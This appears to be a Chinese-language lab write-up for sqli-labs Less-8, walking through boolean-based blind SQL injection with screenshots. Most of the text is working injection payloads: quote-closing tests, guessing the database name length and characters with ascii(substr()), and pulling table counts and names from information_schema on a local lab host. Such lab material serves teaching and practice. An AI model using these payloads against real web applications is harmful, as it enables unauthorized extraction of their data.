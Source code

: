 正常页面回显样子为：

?id=1’ and 1=1--+

(利用and同时为真才返回true，or同时为假才返回false)

![eb959d52025d72fb15a9f36dde049c6](https://gitee.com/zh0y0/picture/raw/master/zh0y0/eb959d52025d72fb15a9f36dde049c6.png)

查看语句错误时的回显页面样子：

通过闭合多余的单引号从而使添加进去的sql语句正确执行

?id=1' and 1=2

![8be54f5564e9221a020409305e5e35b](https://gitee.com/zh0y0/picture/raw/master/zh0y0/8be54f5564e9221a020409305e5e35b.png)

###### 2.查询数据库长度

输入以下语句去猜数据库长度，or同时为假返回false

```
?id=0' or length(database())>7--+    true
?id=0' or length(database())>8--+    false
?id=0' or length(database())=8--+    true
```

![6c069f3f6396e60a0367f79444389c2](https://gitee.com/zh0y0/picture/raw/master/zh0y0/6c069f3f6396e60a0367f79444389c2.png)

###### 3.猜数据库第一位字符

可以先用substr函数取数据库的第一位字符，然后为了方便匹配我们将拿到的第一个字符转换成对应的ASCII值，再与猜测的ASCII值进行大小比较。通过修改substr的参数逐步得到该数据库的第二位字符第三位字符……最终得到数据库全名为security

```
?id=0' or ascii(substr(database(),1,1))>100--+  true
?id=0' or ascii(substr(database(),1,1))>120--+  false
?id=0' or ascii(substr(database(),1,1))=115--+  true
```

###### 4.猜测数据库中的表数量

测试 or 4 = 正常 、or 5 = 失败

```
http://192.168.191.138/sqli-labs-master/less-8/?id=0' or 4=(select count(table_name) from information_schema.tables where table_schema=database());--+
```

![99f0a625e7c0ff182c208feb58ffd41](https://gitee.com/zh0y0/picture/raw/master/zh0y0/99f0a625e7c0ff182c208feb58ffd41.png)

###### 5.猜测第一个表中的第一个字符

查找security这个数据库中的第一个表中（用limit控制输出第一个表名）的第一个字符对应的ASCII值

```
http://192.168.191.138/sqli-labs-master/less-8/?id=0' or ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+
```
